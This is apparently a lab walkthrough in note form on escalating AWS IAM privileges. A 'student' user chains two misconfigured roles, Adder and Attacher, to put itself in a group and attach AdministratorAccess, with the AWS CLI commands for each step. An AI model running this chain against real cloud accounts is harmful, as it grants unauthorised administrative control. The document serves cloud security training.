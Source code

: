 ** Bad combination of Adder and Attacher role policies **
How to elevate privileges abusign on the combination of Adder and Attacher role policies

Setting AWS Credentials 
`aws configure`

Listing attached user policies
`aws iam list-attached-user-policies --user-name student`
Trying to create a new user - Access Denied
`aws iam create-user --user-name Bob`
Listing user policies and their details
`aws iam list-user-policies --user-name student`
`aws iam get-user-policy --user-name student --policy-name terraform-2021021105175865940000002`
We can found a role named Adder, it permits to add a new user
`aws ima list-role-policies --role-name Adder`
`aws iam get-role-policy --role-name Adder --policy-name AddUser`
AddUser policy permits to add a user to a group, in this hypotetic case in the resource "arn:aws:iam::607486832336:group/Printers"

List all the groups that the user is included
`aws iam list-groups-for-user --user-name student`
Assuming Adder role
`aws sts assume-role --role-arn arn:aws:iam::607486832336:role/Adder --role-session-name adder_test`
We obtain:
![[Pasted image 20210502220255.png]]

With this credential we can export them to a environment variables:
![[Pasted image 20210502220604.png]]

Adding user to a group
`aws iam add-user-to-group --group-name Printers --user-name student`

Unset environment variables
![[Pasted image 20210502220925.png]]

List all the groups that the user is included. Now is a Printer group member
`aws iam list-groups-for-user --user-name student`

List role policies for an user
Attacher Role permits to attach a group policy to a group, in this case the Printer group
`aws ima list-role-policies --role-name Attacher`
`aws iam get-role-policy --role-name Attacher --policy-name AttachPolicy`

`aws iam list-attached-group-policies --group-name Printers`

Assuming Attacher Role
`aws sts assume-role --role-arn arn:aws:iam::607486832336:role/Attacher --role-session-name attacher_test`
Copy again Access key ID, Secret access key, and session token to add these values to an environment variables

Attaching AdministratorAccess policy with group
Adding environment variables
![[Pasted image 20210502221918.png]]

`aws iam attach-group-policy --group-name Printers --policy-arn arn:aws:iam:policy/AdministratorAccess`

Unset again environment variables
![[Pasted image 20210502220925.png]]

Checking escalated privileges
`aws iam list-attached-group-policies --group-name Printers`
Checking if we can create users - Success
`aws iam create-user --user-name Bob`

